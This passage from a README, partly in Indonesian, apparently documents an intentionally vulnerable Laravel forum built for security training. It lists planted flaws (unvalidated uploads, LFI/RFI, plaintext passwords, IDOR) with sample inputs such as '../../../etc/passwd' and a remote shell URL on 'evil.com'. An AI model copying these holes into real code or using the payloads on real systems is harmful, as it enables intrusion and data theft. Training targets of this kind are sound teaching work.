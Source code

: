 -   **Lokasi**: Multiple upload endpoints
-   **Implementasi**:
    -   Basic upload: No validation
    -   Advanced upload: Path traversal
    -   Executable files allowed
-   **Test**: Upload PHP shell, path traversal attacks
-   **File**: `app/Http/Controllers/ForumController.php`

### ✅ 7. File Inclusion

-   **Lokasi**: `/include-file` endpoint
-   **Implementasi**:
    -   LFI: `include $file . '.php'`
    -   RFI: `include $file` (remote URLs)
-   **Test**: `../../../etc/passwd`, `http://evil.com/shell.txt`
-   **File**: `app/Http/Controllers/ForumController.php`

### ✅ 8. Broken Authentication and Session Management

-   **Implementasi**:
    -   No session regeneration
    -   Weak password policy
    -   No account lockout
    -   Information disclosure in errors
    -   Plaintext password storage
-   **Test**: Session fixation, weak passwords
-   **File**: `app/Http/Controllers/AuthController.php`

### ✅9. Insecure Direct Object Reference (IDOR)

-   **Lokasi**: Multiple endpoints without authorization
-   **Implementasi**:
    -   User profiles: `/profile/{id}`
    -   Edit posts: `/edit-post/{id}`
    -   Delete posts: `/delete-post/{id}`
    -   User profiles: `/user/{id}`
-   **Test**: Change ID in URL to access other users' data
-   **File**: `app/Http/Controllers/ForumController.php`, `AuthController.php`

## 🔥 Fitur Aplikasi

### Web Interface

-   **Forum lengkap** dengan posting dan commenting
-   **Admin panel** menampilkan plaintext passwords
-   **User profiles** dengan XSS vulnerabilities
-   **Search functionality** dengan SQL injection
-   **File upload** dengan path traversal
-   **Testing interface** untuk semua vulnerabilities

### API Endpoints
